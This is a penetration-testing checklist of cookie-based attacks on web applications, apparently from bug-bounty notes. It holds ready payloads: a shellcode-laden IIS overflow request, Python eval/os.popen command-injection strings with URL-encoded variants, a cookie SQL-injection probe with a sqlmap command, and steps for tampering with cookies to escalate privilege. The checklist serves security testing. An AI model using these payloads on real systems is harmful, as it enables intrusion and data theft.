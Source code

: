# Cookie Based Attacks

> Checklist

* [ ] sensetive Data Stored in Cookies

```
check if anf pii or other sensitive infromation stored in  cookies this in fromation usually includes : email,sessionID, data of birth ,mobile address ,ssn ,etc.
```

* [ ] cookie length violation\
  leads to Buffer Overflow : A cookie length which is longer than profiled length can indicate that a buffer overflow attack attempt takes place. In a buffer overflow attack, the attacker will have to send very long strings that will generate the overflow, all of them generating this Violation.

```
GET  /default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u9090%u8190%u00c3%u0003%u8b00%u531 b%u53ff%u0078%u0000%u00=a
```

* [ ] Arbitrary Cookie injection

```
try injecting some arbitrary cookies using attack such as CRLF injection ,some times it can be used to escalate privilege or if the application malfunction, it can reveal sensitive infromation through stack traces
```

* [ ] Mass Assignment

```
similar to the parameter poolution, however in this , attacker tried to inject multiple user ID in same user_id  parameter
```

* [ ] Danail of service - cookie Bomb

```
forcing the server to process cookies larger than the resricted cookie size defined by the server may cause danial of service attack<https://target.com/index.php?param1=xxxxxxxxxxxxxxxxxxxxxx>After input "xxxxxxxxxxxxxxxxxxxxxx" as a value of param1, check your cookies. If there is cookies the value is "xxxxxxxxxxxxxxxxxxxxxx" it means the website is vulnerableReferences: [Hackerone #105363](<https://hackerone.com/reports/105363>)
```

* [ ] SQL injection

```
How to inject the code in Cookies?There are many HTTP interceptors and HTTP editors that can intercept the HTTP request before it is sent to the server. Then the tester can introduce his malicious SQL statement in the cookie field.It’s like a get/post based SQL Injection, except that certain characters can’t be used. For example, ‘**;**‘ and ‘**,**‘ are typically treated as delimiters, so they end the injection if they aren’t URL-encoded.Cookie : sessionId=xxxbad1fdc’ order by 1# (Normal)_Cookie : sessionId=xxxbad1fdc’ order by 2# (Error)_after error sqlmap -u "" --cookie="" -p "" --dbs
```

* [ ] parameter pollution

```
1. Assume that cookie utilize a parameter called **user_id=** to rerieve some data2. however , the application is not vulnerability to idor and change **user_id** to victim value dosnt help you3.attacker ,add an addition another  **user_id=** parameter value to rhe cookie with vuctim user ID LIke: **user_id=atacker&user_id=victim**4. Three things can happen here:- the application may retrieve data of victim data- the application may retrieve data of victim data and attacker data- the application is not retrieve data it is not vulnerability
```

* [ ] Authentication Bybass (cookie are not avalid)

```
try accessing a protected resource by removing cookies
```

* [ ] xss

```
assume that the value of the cookie parameter "name" is reflected in the applicationchange the "name" value to "xss payload"
```

* [ ] Insufficient session management

```
1. session doesnt expire on logout2. long session expirey3. session doesnt expire on password reset /change4. concurrent session
```

* [ ] privilege escalation
* [ ] horizontal

```
1.assume that the application uses mult-organization models2.cookie are used wich organized user can access3.alter the cookie in order to access some other application
```

* vertical

```
1.assume the cookie are used to determine the role of the user2.alter the cookie in order to elevate the role of the user
```

* similarly

```
1.try if the flower users cookies can be used to access higher users function2.try if the cookie of organization 1 user van be used to access function of organizaion 2
```

* [ ] sesion puzzing

```
when an application utilzes the same session variable for multiple purposes , this can abused by an attacker to trick the application and perform the action as an authenticated or privileged user
```

* [ ] Exploiting Python Code Injection\
  this payload in cookie or contenttype or path or parameter

```
eval(compile('for x in range(1):\\n import time\\n time.sleep(20)','a','single'))
```

* [ ] OS command injection

```
**eval(compile("""for x in range(1):\\\\n import os\\\\n os.popen(r'COMMAND').read()""",'','single'))**
```

```
eval(compile("""__import__('os').popen(r'COMMAND').read()""",'','single'))
```

```
**__import__('os').popen('COMMAND').read()**
```

* [ ] URL encode some characters

```
param=eval%28compile%28%27for%20x%20in%20range%281%29%3A%0A%20import%20time%0A%20time.sleep%2820%29%27%2C%27a%27%2C%27single%27%29%29
```

```
param=eval%28compile%28%22%22%22for%20x%20in%20range%281%29%3A%5Cn%20import%20os%5Cn%20os.popen%28r%27COMMAND%27%29.read%28%29%22%22%22%2C%27%27%2C%27single%27%29%29
```

```
param=eval%28compile%28%22%22%22__import__%28%27os%27%29.popen%28r%27COMMAND%27%29.read%28%29%22%22%22%2C%27%27%2C%27single%27%29%29
```

```
param=__import__%28%27os%27%29.popen%28%27COMMAND%27%29.read%28%29
```

Example with one expression

```
__import__('os').popen('COMMAND').read()
```

Example with multiple expressions, separated by commas

```
str("-"*50),__import__('os').popen('COMMAND').read()
```

* [ ] Insecure Deserialization

```
 if cookis are using serialized Objects ,try performing insecure Deserialization Checks. portswigger laps
```

* [ ] Electronic Code Book
* [ ] Pickle Code Execution
* [ ] Cipher block chaining
* [ ] file inclusion
* [ ] IDOR
* [ ] session fixation
* [ ] padding oracle attack
* [ ] JWT attack
